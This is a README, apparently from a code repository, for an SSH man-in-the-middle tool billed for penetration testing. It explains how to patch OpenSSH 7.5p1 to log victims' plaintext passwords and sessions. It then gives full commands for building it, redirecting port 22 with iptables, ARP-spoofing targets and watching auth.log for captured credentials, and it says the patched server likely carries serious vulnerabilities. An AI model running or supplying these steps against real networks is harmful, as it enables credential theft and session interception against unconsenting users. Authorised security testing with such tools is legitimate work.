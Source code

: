 # SSH MITM v1.0

## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and a legitimate SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  Because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.  Until the dependency on root privileges is removed, be sure to only run this code on throw-away VMs/containers.


## Todo

This is the first release of this tool.  While it is very useful as-is, there nevertheless are things to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Remove dependency on root privileges.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

1.) Install zlib and openssl headers:

    sudo apt install zlib1g-dev libssl-dev

2.) Download OpenSSH v7.5p1 and verify its signature:

    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/RELEASE_KEY.asc
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz.asc
    gpg --import RELEASE_KEY.asc
    gpg --verify openssh-7.5p1.tar.gz.asc openssh-7.5p1.tar.gz

3.) Unpack the tarball, patch the sources, and compile it:

    tar xzf openssh-7.5p1.tar.gz
    patch -p0 < openssh-7.5p1-mitm.patch
    mv openssh-7.5p1 openssh-7.5p1-mitm; cd openssh-7.5p1-mitm; ./configure --with-sandbox=no && make -j 10

4.) Create keys and setup environment:

    sudo ssh-keygen -t ed25519 -f /usr/local/etc/ssh_host_ed25519_key < /dev/null
    sudo ssh-keygen -t rsa -b 4096 -f /usr/local/etc/ssh_host_rsa_key < /dev/null
    sudo useradd -m sshd && sudo useradd -m bogus && sudo chmod 0700 ~sshd ~bogus
    sudo mkdir /var/empty; sudo cp ssh ~bogus/


## Running The Attack

1.) Run *sshd*:

    cd /path/to/openssh-7.5p1-mitm
    sudo $PWD/sshd -f $PWD/sshd_config

2.) Enable IP forwarding:

    sudo echo 1 > /proc/sys/net/ipv4/ip_forward
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd* and re-route forwarded SSH connections:

    iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't like be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor the auth.log.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/bogus/session_\*.txt*.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch

